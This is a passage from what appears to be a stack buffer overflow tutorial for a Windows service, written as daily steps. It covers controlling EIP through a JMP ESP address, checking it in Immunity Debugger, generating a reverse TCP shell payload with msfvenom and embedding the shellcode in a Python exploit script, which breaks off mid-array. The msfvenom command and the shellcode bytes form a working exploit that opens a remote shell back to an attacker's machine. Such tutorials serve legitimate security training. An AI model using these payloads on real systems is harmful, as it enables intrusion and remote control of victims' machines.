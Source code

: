 ```
        sys.exit()
```

Note the pointer number `625011BB` was now going backwards `"\xbb\x11\x50\x62` This is actually called Little Endian.

We have to use the Little Endian format in x86 architecture because the low-order byte is stored in the memory at the lowest address and the high-order byte is stored at the highest address. Thus, we enter our return address in backwards.

Now we need to find our return address in Immunity Debugger. To do this, click on the far right arrow on the top panel of Immunity dubugger.

![Image](https://imgur.com/MrjlX5U.png)

Then search for `625011BB` (or the return address you found), without the quotes, in the `Enter expression to follow` prompt. That should bring up our return address, FFE4, JMP ESP location. Once we found it i hit F2 and the address turn baby blue, indicating that we have set a breakpoint.

![Image](https://imgur.com/exYO9vE.png)

Now let execute our code that we save and see if the breakpoint triggers. If we notice it trigger in Immunity Debugger, we are in the home stretch and ready to develop our exploit now let click on the play before executing our code.

![image](https://imgur.com/TObP4fe.png)

Boom we mean we have a breakpoint and which mean we have total control of the EIP `625011BB` Cool now the next thing for us to do is to generate a shellcode and point it to the shellcode and boom we should get a shell smilling back at us.


####  `Day 8`

`GENERATING SHELLCODE AND GAINING ROOT`

Now time to generate a shellcode with Msfvenom;

`msfvenom -p windows/shell_reverse_tcp LHOST=your.Kali.IP.address LPORT=4444 EXITFUNC=thread -f c -a x86 –platform windows -b "\x00"`

![image](https://imgur.com/1Cg3GTP.png)

```
#!/usr/bin/python 
import sys, socket
 
overflow = ("\xbb\xb3\x2e\xf8\xec\xdb\xc7\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x5e\x12\x03\x5e\x12\x83\x5d\xd2\x1a\x19\x5d\xc3\x59"
"\xe2\x9d\x14\x3e\x6a\x78\x25\x7e\x08\x09\x16\x4e\x5a\x5f\x9b"
"\x25\x0e\x4b\x28\x4b\x87\x7c\x99\xe6\xf1\xb3\x1a\x5a\xc1\xd2"
"\x98\xa1\x16\x34\xa0\x69\x6b\x35\xe5\x94\x86\x67\xbe\xd3\x35"
"\x97\xcb\xae\x85\x1c\x87\x3f\x8e\xc1\x50\x41\xbf\x54\xea\x18"
"\x1f\x57\x3f\x11\x16\x4f\x5c\x1c\xe0\xe4\x96\xea\xf3\x2c\xe7"
"\x13\x5f\x11\xc7\xe1\xa1\x56\xe0\x19\xd4\xae\x12\xa7\xef\x75"
"\x68\x73\x65\x6d\xca\xf0\xdd\x49\xea\xd5\xb8\x1a\xe0\x92\xcf"
"\x44\xe5\x25\x03\xff\x11\xad\xa2\x2f\x90\xf5\x80\xeb\xf8\xae"
"\xa9\xaa\xa4\x01\xd5\xac\x06\xfd\x73\xa7\xab\xea\x09\xea\xa3"
"\xdf\x23\x14\x34\x48\x33\x67\x06\xd7\xef\xef\x2a\x90\x29\xe8"
"\x4d\x8b\x8e\x66\xb0\x34\xef\xaf\x77\x60\xbf\xc7\x5e\x09\x54"
"\x17\x5e\xdc\xfb\x47\xf0\x8f\xbb\x37\xb0\x7f\x54\x5d\x3f\x5f"
"\x44\x5e\x95\xc8\xef\xa5\x7e\x5b\xfb\xaf\x7a\xcb\x06\xaf\x93"
"\x57\x8e\x49\xf9\x77\xc6\xc2\x96\xee\x43\x98\x07\xee\x59\xe5"
"\x08\x64\x6e\x1a\xc6\x8d\x1b\x08\xbf\x7d\x56\x72\x16\x81\x4c"
"\x1a\xf4\x10\x0b\xda\x73\x09\x84\x8d\xd4\xff\xdd\x5b\xc9\xa6"
"\x77\x79\x10\x3e\xbf\x39\xcf\x83\x3e\xc0\x82\xb8\x64\xd2\x5a"
"\x40\x21\x86\x32\x17\xff\x70\xf5\xc1\xb1\x2a\xaf\xbe\x1b\xba"
"\x36\x8d\x9b\xbc\x36\xd8\x6d\x20\x86\xb5\x2b\x5f\x27\x52\xbc"
```